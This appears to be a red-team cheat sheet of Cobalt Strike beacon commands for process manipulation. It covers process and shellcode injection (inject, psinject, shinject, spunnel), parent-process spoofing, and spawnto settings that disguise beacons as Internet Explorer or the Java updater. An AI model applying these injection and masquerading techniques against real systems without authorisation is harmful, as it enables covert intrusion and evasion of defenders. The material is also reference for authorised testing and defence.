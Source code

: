 # 06 - Process Manipulation

Search Tag: #cobalt-strike #command-and-control

## 6.1 - Inject Process

* Inject to spawn beacon session

`beacon> inject <pid> <architecture> <listener>`

* Run powershell through another process

`beacon> psinject <pid> <arch> <cmdlet> [args]`

## 6.2 - Inject Shellcode

* Inject shellcode

`beacon> shinject <pid> /path/to/shellcode.bin`

* Spawn shellcode and tunnel

`beacon> spunnel <pid> /path/to/shellcode.bin`

## 6.3 - Spoof Process

* Spoof a parent process that is ready to spawn a new child process

`beacon> ppid <ppid>`

## 6.4 - Spawn Beacon Session

`beacon> spawnas <domain_name>\<username> <password>`

`beacon> spawnto <arch> <path> <args>`

`beacon> spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe`

`beacon> spawnto x86 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe`

`beacon> spawn <arch> <listener>`

---
## References

* [Cobalt Strike Spawn Tunnel](https://rastamouse.me/cobalt-strike-spawn-tunnel/)